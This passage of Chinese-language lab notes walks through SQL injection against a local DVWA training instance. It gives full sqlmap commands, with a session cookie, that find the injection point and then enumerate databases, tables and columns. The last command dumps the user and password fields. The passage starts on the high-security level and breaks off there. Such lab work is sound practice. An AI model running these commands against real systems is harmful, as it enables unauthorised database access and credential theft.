 3.使用sqlmap，寻找注入点

```
D:\sqlmap>sqlmap.py -u "http://192.168.120.129/dvwa/vulnerabilities/sqli/" --data "id=1&Submit=Submit" --cookie "security=medium; PHPSESSID=prasunu4qhs3eutb08uj24r3p0"
```

![截图录屏_选择区域_20210127144812](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127144812.png)

4.获取数据库

```
D:\sqlmap>sqlmap.py -u "http://192.168.120.129/dvwa/vulnerabilities/sqli/" --data "id=1&Submit=Submit" --cookie "security=medium; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch --dbs
```

![截图录屏_选择区域_20210127145004](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127145004.png)

5.获取数据表

```
D:\sqlmap>sqlmap.py -u "http://192.168.120.129/dvwa/vulnerabilities/sqli/" --data "id=1&Submit=Submit" --cookie "security=medium; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch -D dvwa --tables
```

![截图录屏_选择区域_20210127145226](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127145226.png)

6.在数据表users中获得列

```
D:\sqlmap>sqlmap.py -u "http://192.168.120.129/dvwa/vulnerabilities/sqli/" --data "id=1&Submit=Submit" --cookie "security=medium; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch -D dvwa -T users --columns
```

![截图录屏_选择区域_20210127145404](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127145404.png)

7.获取user和password的信息

```
D:\sqlmap>sqlmap.py -u "http://192.168.120.129/dvwa/vulnerabilities/sqli/" --data "id=1&Submit=Submit" --cookie "security=medium; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch -D dvwa -T users -C user,password --dump
```

![截图录屏_选择区域_20210127145554](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127145554.png)

### high

1.high级别要在第一个页面点击链接，然后在另一个页面进行查询，结果返回给第一个页面

![截图录屏_选择区域_20210127145833](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127145833.png)

查看源代码发现只要$_SESSION['id']存在，就进行查询

![截图录屏_选择区域_20210127150538](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127150538.png)
